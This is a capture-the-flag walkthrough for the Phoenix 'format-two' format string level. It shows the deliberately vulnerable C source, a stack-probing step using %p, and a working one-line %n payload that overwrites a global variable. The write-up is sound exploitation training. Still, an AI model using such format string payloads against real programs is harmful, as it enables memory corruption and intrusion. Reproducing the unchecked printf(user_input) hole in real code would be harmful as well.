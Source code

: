 # FORMAT TWO

## SOURCE CODE

```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int changeme;

void bounce(char *str) {
  printf(str);
}

int main(int argc, char **argv) {
  char buf[256];

  printf("%s\n", BANNER);

  if (argc > 1) {
    memset(buf, 0, sizeof(buf));
    strncpy(buf, argv[1], sizeof(buf));
    bounce(buf);
  }

  if (changeme != 0) {
    puts("Well done, the 'changeme' variable has been changed correctly!");
  } else {
    puts("Better luck next time!\n");
  }

  exit(0);
}
```

## STRATEGY
The goal is write in a specific address (changeme). We can do it because of format string vulnerable printf wrapped in bounce founction. For do that we will write the address of *`changeme`* in the buffer, than during printf pop arguments from the stack until we reach the address of *`changeme`* and write in that pointed memory area with ```%n```  

## EXPLOIT
.1 Find the *`changeme`* address:

```shell
user@phoenix-amd64:/opt/phoenix/i486$ objdump -t format-two | grep changeme
08049868 g     O .bss	00000004 changeme
```
  (address at 0x08049868)

.2 use %p and a recognizable text like 'AAAA' for find buffer position in the stack during printf:

```shell
user@phoenix-amd64:/opt/phoenix/i486$ ./format-two `python -c 'print "AAAA" + ".%p"*15'`
Welcome to phoenix/format-two, brought to you by https://exploit.education
AAAA.0xffffd7cf.0x100.0.0xf7f84b67.0xffffd610.0xffffd5f8.0x80485a0.0xffffd4f0.0xffffd7cf.0x100.0x3e8.0x41414141.0x2e70252e.0x252e7025.0x70252e70Better luck next time!
```
  Buffer is at 12th position
  
.3 Now that we have all the ingredients we can write the exploit keeping in mind to add %n at position 12th

```shell
./format-two `python -c 'import struct; print struct.pack("I", 0x08049868) + "%p"*11 + "%n"'`
```
